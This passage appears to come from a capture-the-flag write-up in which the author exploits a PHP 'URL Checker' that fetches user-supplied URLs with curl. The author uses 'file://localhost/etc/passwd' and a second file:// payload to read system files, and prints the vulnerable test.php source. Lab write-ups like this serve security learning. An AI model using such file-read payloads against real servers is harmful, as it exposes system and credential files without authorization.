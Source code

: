 We can only test local files. Let's try with the `index.php` file:

<center>
![](/img/infosec_stuff/odie_gs/red_7.png)
</center>

Hmmm... It includes the webpage, we might think there is a file inclusion somewhere!

### LFI, RCE or SSRF?

Indeed, we can think of a Local File Inclusion, a Remote Command Execution or Server Side Request Forgery... But thanks to the output verbosity, we assume this script is using `curl`:

<center>
![](/img/infosec_stuff/odie_gs/red_8.png)
</center>

Let's try to change the protocol used, something like `file://` instead of `http://`. If we don't miss the localhost condition, it should work:

> file://localhost/etc/passwd

<center>
![](/img/infosec_stuff/odie_gs/red_9.png)
</center>

This application allows us to include arbitrary file, great. By the way, there is a user called __odie__ on the system. I will display the content of `test.php`, just to be clear about the vulnerability:

> file://localhost/var/www/html/test.php

```php
<?php 
include_once "config_test.php";
?>

<html>
<head>
	<title>Super curling</title>
</head>
<body>
	<form action="test.php" method="post">
		URL Checker - Beta: 
		<input type="text" name='url' />		
	</form>
<?php
if (isset($_POST['url'])&&!empty($_POST['url']))
{
		$url = $_POST['url'];
			$content_url = getUrlContent($url);
}
else
{
		$content_url = "";
}

if(isset($_GET['debug']))
{
		show_source(__FILE__);
}
?> 
</body>
</html>
```
